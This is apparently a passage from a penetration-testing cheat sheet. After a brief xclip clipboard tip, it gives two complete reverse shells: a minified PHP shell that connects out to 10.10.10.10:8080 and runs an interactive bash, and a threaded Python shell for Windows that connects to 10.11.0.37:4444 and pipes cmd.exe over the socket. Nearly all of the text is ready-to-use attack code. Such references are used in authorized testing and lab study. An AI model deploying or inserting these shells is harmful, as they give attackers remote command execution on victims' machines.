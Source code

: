 ### xclip

Not a true method of file transfer, but useful nonetheless:

`cat /usr/share/nishang/Client/Out-HTA.ps1 | xclip -sel clip`

## REVERSE SHELLS / SHELLS

### PHP Reverse Shell - Minified

`<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.10.10"; $port = 8080; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { exit(1); } $daemon = 1; } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); while (1) { if (feof($sock)) { break; } if (feof($pipes[1])) { break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { $input = fread($sock, $chunk_size); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { $input = fread($pipes[1], $chunk_size); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { $input = fread($pipes[2], $chunk_size); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); ?>`

_(originally sourced from:_ [_https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php_](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)_)_

### Python Reverse Shell for Windows

```python
import os,socket,subprocess,threading;

def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.11.0.37",4444))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```
